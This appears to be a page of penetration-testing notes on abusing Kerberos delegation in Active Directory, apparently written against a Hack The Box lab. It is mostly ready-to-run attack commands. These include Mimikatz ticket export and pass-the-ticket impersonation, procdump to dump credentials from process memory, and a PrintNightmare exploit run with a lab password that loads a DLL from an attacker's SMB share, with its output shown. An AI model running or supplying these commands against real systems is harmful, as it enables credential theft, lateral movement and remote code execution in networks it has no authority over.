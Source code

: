 * Unconstrained
* Constrained
* Resourced-based constrained Delegation

#### Enumeration:

{% code overflow="wrap" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
```
{% endcode %}

#### Identify the accounts that allow for this. Export tickets:

```powershell
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

#### Impersonate User with PTT:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TIcket.kirbi"'
```

#### Remote PS:

```powershell
$session = New-PSSession -Computer ComputerNAME
Invoke-Command -ScriptBlock{whoami;hostname} -computername COMPUTERNAME
```

Simple as that. For more advanced techniques, we can view this link:&#x20;

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation" %}

#### When stuck:

{% code overflow="wrap" %}
```powershell
netstat -a -b 
netstat -ano

#check and see what other things are running on the machine to see if another user is running them

procdump.exe <process> 

#sometimes credentials to certain users are in plaintext.
```
{% endcode %}

#### PrintNightMare:

{% code overflow="wrap" %}
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675/

python3 CVE-2021-1675.py 'HEIST/hazard:stealth1agent@10.10.10.149' '\\10.10.14.200\share\AddUserDll.dll'
[*] Connecting to ncacn_np:10.10.10.149[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \\10.10.14.200\share\AddUserDll.dll
[*] Try 1...
[*] Stage0: 0
```